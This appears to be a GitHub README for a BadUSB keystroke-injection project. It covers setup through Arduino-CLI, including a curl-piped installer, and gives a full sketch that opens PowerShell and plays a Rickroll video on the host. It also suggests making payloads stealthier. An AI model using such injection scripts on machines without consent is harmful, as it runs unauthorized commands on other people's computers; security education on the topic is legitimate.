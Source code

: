 # **HiLetGo BadUSB Beetle - Keystroke Injection - Multi-OS Support**

## **Overview**
This project turns the **HiLetgo BadUSB Beetle (ATMEGA32U4)** into a **multi-OS keystroke injection tool** that can automate commands across **Windows, Linux, and macOS**. The included **Rickroll payload** is just an example of what’s possible. Additional payloads will be added to support various automation and security research tasks.

## **⚠️ Disclaimer**
This tool is for **educational and ethical hacking purposes only**. Do not use this on systems you do not own or have explicit permission to test. The misuse of this tool may result in legal consequences.

---

## **🔧 Requirements**
- **HiLetgo BadUSB Beetle (ATMEGA32U4)** or any ATMEGA32U4-based board
- **Arduino-CLI installed**
- **Arduino Keyboard Library installed**
- **A computer running Windows, Linux, or macOS**
- **USB cable for flashing the board**

---

## **🛠️ Installation & Setup**
### **Step 1: Install Arduino-CLI**
Arduino-CLI is required to compile and upload scripts to the BadUSB device.

Run the following command to install Arduino-CLI:
```bash
curl -fsSL https://raw.githubusercontent.com/arduino/arduino-cli/master/install.sh | sh
```
Verify the installation:
```bash
arduino-cli version
```

### **Step 2: Configure Arduino-CLI**
Initialize the configuration file:
```bash
arduino-cli config init
```
Update the core index and install support for ATMEGA32U4 boards:
```bash
arduino-cli core update-index
arduino-cli core install arduino:avr
```

### **Step 3: Install the Keyboard Library**
The Keyboard library is required to simulate keystrokes. Install it using:
```bash
arduino-cli lib install "Keyboard"
```

### **Step 4: Check If Your Board is Detected**
Plug in your HiLetgo BadUSB Beetle and run:
```bash
arduino-cli board list
```
If detected, you should see an output like:
```
Port         Type              Board Name  
/dev/ttyACM0 Serial Port      Arduino Micro
```

---

## **📜 Writing a Keystroke Injection Script**
The following is an **example Rickroll payload for Windows**. Additional payloads will be added to support different automation use cases.

### ** Create a New Sketch**
Create a new file called `payload.ino` and paste the following script:

```cpp
#include "Keyboard.h"

void setup() {
    delay(3000); // Wait for system to be ready
    Keyboard.begin();

    // Open Run Dialog (Win + R)
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    Keyboard.releaseAll();
    delay(500);

    // Open PowerShell
    Keyboard.print("powershell");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1500);

    // Command to play video in Microsoft Edge Kiosk Mode
    Keyboard.print("Start-Process msedge.exe -ArgumentList \"--kiosk https://shattereddisk.github.io/rickroll/rickroll.mp4 --edge-kiosk-type=fullscreen\"");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // If Edge is unavailable, use Windows Media Player
    Keyboard.print("$wmp = New-Object -ComObject WMPlayer.OCX; $wmp.URL = 'https://shattereddisk.github.io/rickroll/rickroll.mp4'; $wmp.controls.play();");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // Exit PowerShell
    Keyboard.print("exit");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();

    Keyboard.end();
}

void loop() {}
```

---

## **🛠️ Compiling & Uploading the Script**
### **Step 1: Compile the Script**
Run the following command to compile the script for the **ATMEGA32U4**:
```bash
arduino-cli compile --fqbn arduino:avr:micro payload.ino
```
If your board uses the **Leonardo bootloader**, use:
```bash
arduino-cli compile --fqbn arduino:avr:leonardo payload.ino
```

### **Step 2: Upload the Script to the BadUSB Device**
```bash
arduino-cli upload -p /dev/ttyACM0 --fqbn arduino:avr:micro payload.ino
```
Replace `/dev/ttyACM0` with the correct port detected earlier.

---

## **🚀 Executing the Payload**
1. **Plug the BadUSB into a computer** running Windows, Linux, or macOS.
2. The script will automatically execute after a **3-second delay**.
3. The behavior depends on the payload:
   - The **Rickroll example** will launch and play the video.
   - Future payloads will support **automated commands, network scripts, or penetration testing tools**.

---

## **🎯 Troubleshooting**
### **1. The Payload Doesn't Execute**
- Ensure the script is **compiled and uploaded correctly**.
- Verify that **Arduino-CLI detects the board** with `arduino-cli board list`.
- Try increasing the delay (`delay(3000);` to `delay(5000);`) in `setup()`.

### **2. Edge Doesn’t Open in Kiosk Mode (Windows Example)**
- Ensure **Microsoft Edge is installed** by running:
  ```powershell
  Start-Process msedge.exe
  ```
- If Edge isn’t installed, the script will automatically fall back to **Windows Media Player**.

### **3. Expanding Beyond the Rickroll Payload**
- New payloads will be added to support **Linux terminal automation**, **macOS scripting**, and **advanced penetration testing workflows**.
- Stay updated by checking the repository for new releases!

---

## **📌 Additional Enhancements**
- **Make it more stealthy**: Modify commands to **hide execution windows**.
- **Expand payload library**: Add **multi-OS automation scripts**.
- **User interaction bypass**: Implement logic to detect and manipulate UI elements.

---

## **📢 Final Notes**
This repository is designed for **educational purposes**, helping users understand how keystroke injection can be used for **automation and security research**.

For any issues or improvements, feel free to **submit a pull request** or **open an issue** on GitHub.

**More payloads coming soon!** 🚀


